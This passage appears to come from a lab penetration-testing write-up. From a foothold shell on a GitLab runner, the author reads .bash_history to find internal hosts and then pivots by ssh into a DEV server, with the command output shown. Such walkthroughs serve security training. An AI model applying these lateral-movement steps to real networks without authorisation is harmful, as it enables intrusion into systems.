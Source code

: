 ```bash

gitlab-runner@ip-10-200-94-202:~/builds/_KwqiWhz/0/ash/environments$ id
id
uid=1001(gitlab-runner) gid=1001(gitlab-runner) groups=1001(gitlab-runner)
```

Now from the diagram, we know that we have a shell on the **GRunner02** machine since it has the ip **10.50.75.202**.

Now our aim is to pivot to the DEV(10.200.94.220) & PROD(10.200.94.230) servers.

The `.bash_history` file indicates we can pivot to DEV & PROD by ssh directly.
```
gitlab-runner@ip-10-200-94-202:~$ ls -la
ls -la
total 36
drwxr-x--- 5 gitlab-runner gitlab-runner 4096 Mar  7 08:43 .
drwxr-xr-x 4 root          root          4096 Jul 17  2023 ..
-rw------- 1 gitlab-runner gitlab-runner  172 Mar  7 09:21 .bash_history
-rw-r--r-- 1 gitlab-runner gitlab-runner  223 Aug  7  2023 .bash_logout
-rw-r--r-- 1 gitlab-runner gitlab-runner 3771 Jan  6  2022 .bashrc
drwx------ 2 gitlab-runner gitlab-runner 4096 Mar  7 08:43 .cache
-rw-r--r-- 1 gitlab-runner gitlab-runner  807 Jan  6  2022 .profile
drwx------ 2 gitlab-runner gitlab-runner 4096 Mar  7 09:17 .ssh
drwxrwxr-x 4 gitlab-runner gitlab-runner 4096 Mar  7 07:06 builds
gitlab-runner@ip-10-200-94-202:~$ cat .bash_history
cat .bash_history
ssh-keygen
cat ~/.ssh/id_rsa.pub 
ssh ubuntu@10.200.125.220
ssh ubuntu@10.200.125.230
exit
ssh ubuntu@10.200.125.220
ssh ubuntu@10.200.94.220
ssh ubuntu@10.200.94.230
exit
```

### Pivot into DEV server -

Since the reverse shell is not stable, I was unable to ssh into the DEV/PROD servers. 

So I stabilized my shell first & then tried to ssh into the DEV server.

```bash
gitlab-runner@ip-10-200-94-202:~/.ssh$ ssh ubuntu@10.200.94.220
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 6.2.0-1009-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun May 19 08:45:30 UTC 2024

  System load:  0.0                Processes:             103
  Usage of /:   13.8% of 19.20GB   Users logged in:       0
  Memory usage: 11%                IPv4 address for ens5: 10.200.94.220
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

55 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
```